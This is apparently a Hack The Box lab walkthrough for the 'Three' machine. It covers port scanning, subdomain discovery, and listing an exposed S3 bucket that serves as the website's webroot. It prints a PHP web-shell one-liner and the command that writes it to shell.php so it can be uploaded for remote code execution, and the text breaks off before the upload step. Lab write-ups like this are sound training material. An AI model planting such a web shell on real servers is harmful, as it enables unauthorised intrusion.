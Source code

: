 # HTB(Three-Linux) 

![](/Assets/HTB/THREE/assets/three.jpg) 

# Summary 

* in this Box will new some steps in *cloud pentesting* and will know about *Amazon S3* and how we can know about its contents and how make our machine contact easily with it. 

# NMAP
![](/Assets/HTB/THREE/assets/nmap.png)

# Ports 
we find port 22 for ssh connection and port 80 for http service will discover it , let's check it by browser . 



![](/Assets/HTB/THREE/assets/web.png)



By checking the web using web browser we find the static page and will check the **subdomains** for this host by using **gobuster** as follow .

**NOTE** : add ip of machine in **/etc/hosts** 

like that  echo **"10.129.10.31 thetoppers.htb" | sudo tee -a /etc/hosts**

![](/Assets/HTB/THREE/assets/gobuster.png)

we found subdomain will be foucs with it **s3.thetoppers.htb** by search on google about it , will find info about **amazon s3 cloud storage**

![](/Assets/HTB/THREE/assets/s3amazon.png)

_**NOTE**_  we should add the subdomain **s3.thetopper.htb** in /etc/hosts like that 


![](/Assets/HTB/THREE/assets/response.png)

The webpage only contains the perivous JSON.

We can interact with this S3 bucket with the aid of the **awscli** utility. It can be installed on Linux using the command **apt install awscli** 

First, we need to configure it using the following command. **aws configure**

![](/Assets/HTB/THREE/assets/ls.png)

We can list all of the S3 buckets hosted by the server by using the ls command.

**aws --endpoint=http://s3.thetoppers.htb s3 ls**

We see the files index.php , .htaccess and a directory called images in the specified bucket. It seems like
this is the webroot of the website running on port 80 . So the Apache server is using this S3 bucket as
storage.

**awscli** has got another feature that allows us to copy files to a remote bucket. We already know that the
website is using PHP. Thus, we can try uploading a PHP shell file to the S3 bucket and since it's uploaded to
the webroot directory we can visit this webpage in the browser, which will, in turn, execute this file and we
will achieve remote code execution.


We can use the following PHP one-liner which uses the system() function which takes the URL parameter
cmd as an input and executes it as a system command.

**<?php system($_GET["cmd"]); ?>**

then make file php 

**echo '<?php system($_GET["cmd"]); ?>' > shell.php**

Then, we can upload this PHP shell to the thetoppers.htb S3 bucket using the following command






























